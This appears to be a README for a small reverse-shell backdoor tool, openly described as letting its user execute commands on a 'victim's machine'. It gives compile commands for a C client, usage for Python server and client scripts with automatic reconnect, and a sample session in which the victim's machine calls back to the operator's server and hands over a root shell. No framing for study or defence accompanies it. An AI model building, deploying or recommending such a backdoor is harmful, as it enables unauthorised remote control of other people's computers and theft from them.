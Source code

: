 > ![](cmd.ico) A Tiny REVERSE CONSOLE that allows you excute command on victim's machine.
>
> Python version Support both Python 2 & 3, no thirdpart dependencies.
> There is also a C version client side program Support Linux & Windows.
> WARN: (Server <=> Client communications not encrypted)

### Compile C version `door.c`
```bash
# Windows CL
$> cl door.c /O1 /D WIN32 /Fe door /link /subsystem:console
# Windows or Linux gcc
$> gcc -Wall -O1 door.c -o door
```

### How To Use?
```bash
$> ./server.py bind_address:bind_port
$> ./door.py server_ip:server_port[:retry_interval]

# Server Example
$> ./server.py 127.0.0.1:4433

# Client Example (C version has the same argument)
$> ./door.py 127.0.0.1:4433 # default retry interval 60 seconds
$> ./door.py 127.0.0.1:4433:60
```

## Example
#### Your Machine
```bash
root@server 07:47 /home $ ./server 0.0.0.0:2345
listen on 0.0.0.0:2345, waiting for connection.
connection from *.*.*.*:49006
$> whoami
root

$> ls -la
total 16
drwxr-xr-x  3 root root 4096 Feb 11 07:31 .
drwxr-xr-x 22 root root 4096 Jan 30 09:55 ..
-rwxr-xr-x  1 root root  532 Feb 11 07:31 door
drwxr-xr-x  5 git  git  4096 Jan  3 08:41 jack

$>
```

#### Victim's Machine
```bash
root@boy 07:47 /home $ ./door *.*.*.*:2345
```
End.
